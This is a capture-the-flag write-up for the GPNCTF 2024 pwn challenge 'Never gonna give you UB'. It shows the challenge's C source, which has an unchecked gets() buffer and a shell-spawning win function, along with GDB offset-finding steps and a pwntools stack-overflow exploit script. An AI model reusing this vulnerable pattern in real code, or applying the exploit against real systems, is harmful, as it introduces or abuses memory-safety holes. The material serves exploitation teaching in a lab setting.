 ```yaml
---
layout: load_md
title: The White Circle | Gpnctf 2024 | Never gonna give you UB Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Gpnctf 2024
parent: gpnctf_2024
category: pwn
challenge: Never gonna give you UB
tags: "pwn, ava, win function, pwntools"
date: 2024-06-02T00:00:00+00:00
last_update: 2024-06-02T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Gpnctf 2024</h1>

## Never gonna give you UB
> Solved by : iamavu

We are given a file called `song_rater` amongst other files (Dockerfile and such) with the following security mitigations.

![](https://i.imgur.com/JYzn83H.png)


as there is no PIE, this should be easily solvable as there won’t be random address loading for binary everytime we run the binary, yay!
When we run the binary we get the following

![](https://i.imgur.com/KvLHIve.png)


So it just prints whatever input we get. 

We are also given the C code for the binary, making our job much easier.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// win or flag function which we have to execute somehow for us getting the shell
void scratched_record() {
        printf("Oh no, your record seems scratched :(\n");
        printf("Here's a shell, maybe you can fix it:\n");
        execve("/bin/sh", NULL, NULL);
}

extern char *gets(char *s);

//main function which asks for input without checking input size (gets is security flaw here)
int main() {
        printf("Song rater v0.1\n");
        char buf[0xff];
        printf("Please enter your song:\n");
        gets(buf);
        printf("\"%s\" is an excellent choice!\n", buf);
        return 0;
}
```

I have added comments where necessary, now lets have a look at binary in GDB to find the address of `RIP` so we can put the address of `scratched_record` there and get our flag.


![](https://i.imgur.com/1vmdIB9.png)


We observe that the address of `scratched_record` is `0x0000000000401196`, so we need to somehow put that address in `RIP` instruction pointer.
Let’s buffer overflow!!
We will get big buffer of 300 bytes and see how the program behaves and see which byte ends up in `RBP` .

![](https://i.imgur.com/qpSNWTo.png)


We did `pwn cyclic 300` to get 300 bytes which have certain pattern, and now we will send this as input to program and make it crash.
Why 300? well `0xff` in decimal is `255` so 300 sound pretty good to me.

![](https://i.imgur.com/ZsNFR3a.png)


After crashing the program we see that the byte `haaaaaab` gets into RBP, let’s see how much bytes that is by doing `cyclic -l haaaaaab`

![](https://i.imgur.com/UT4iqsl.png)


We found the offset at 256, now we need to add 8 into that so we get the offset where `RIP` is!
and that is `264`. yay!
Let’s write a simple pwntools script to exploit this now

```python
from pwn import *
win = p64(0x0000000000401196)
overwrite = b"A"*264
payload = overwrite + win
p = process("./song_rater")
p.sendline(payload)
p.interactive()
```

We simply pack the address of `scatched_record` in `win` variable and overwrite `264` bytes and then send that payload to the program and then get an interactive shell!

Let’s run this

![](https://i.imgur.com/2icIWVR.png)


we got the shell!

